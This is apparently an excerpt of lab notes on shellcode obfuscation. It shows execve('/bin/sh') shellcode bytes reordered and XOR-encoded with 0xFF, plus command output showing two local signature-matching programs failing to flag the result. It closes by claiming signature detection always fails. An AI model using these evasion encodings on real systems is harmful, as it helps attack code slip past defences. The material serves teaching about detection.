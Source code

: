 - Here are the bytes in LE order:

```sh
0xe1f7c931
0x2f6e6850
0x2f686873
0x8969622f
0xcd0bb0e3
0x90909080
```

- But we need a reverse order of these bytes to:

```sh
0x90909080
0xcd0bb0e3
0x8969622f
0x2f686873
0x2f6e6850
0xe1f7c931
```

- The effect we are trying to create is to split instructions like `0xcd 0x80` into multiple lines.
- This will evade signature detection mechanism in `sigmatchv2`, but will fail in `sigmatch` because of `"sh"` string

```sh
$ ./bin/sigmatchv2 $(printf `hexconvert ./bin/obfuscatedv1`)
Segmentation fault (core dumped)
$ ./bin/sigmatch $(printf `hexconvert ./bin/obfuscatedv1`)
Nope!
```

### Decoder Obfuscated Shell Code

```sh
$ printf $(hexconverter bin/reduced_shellv2) | ./le-fourbytes.py - 0xFF | tac
0x6f6f6f7f
0x32f44f1c
0x76969dd0
0xd097978c
0xd09197af
0x1e0836ce
```

- What this script does is that it gets byte code from our shellcode and XORs them with `0xFF`, then it just reverses the order with `tac` command.
- This way it passes both of our sig matching programs (ignore the segfault):

```sh
$ ./bin/sigmatch $(printf `../unit_03_shell/hexconverter bin/obfuscatedv2`)
Segmentation fault (core dumped)
$ ./bin/sigmatchv2 $(printf `../unit_03_shell/hexconverter bin/obfuscatedv2`)
Segmentation fault (core dumped)
```

- Someone on the other side could write a signature to detect our decoder.
- But we could've obfuscated our decoder too, and then that guy would need to write a signature for that obfuscation.
- And this could go on and on in a loop, but one is certain __signature matching detection always fails in the end!__
